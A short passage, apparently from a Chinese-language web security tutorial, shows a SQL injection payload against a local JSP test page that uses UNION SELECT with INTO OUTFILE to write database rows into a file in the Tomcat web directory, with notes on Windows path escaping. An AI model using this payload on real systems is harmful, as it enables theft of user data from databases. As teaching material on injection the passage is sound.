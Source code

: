 ![enter image description here](img/img29_u5_png.jpg)

#### 注入点友情备份:

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select '','',corps_name,corps_url from corps into outfile'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/1.txt' 
```

注入在 windows 下默认是 E:\如果用“\”去表示路径的话需要转换成`E:\\`而更方便的方式是直接用/去表示即 E:/。 当我们知道 WEB 路径的情况下而又有 outfile 权限直接导出数据库中的用户信息。￼

![enter image description here](img/img30_u7_png.jpg)

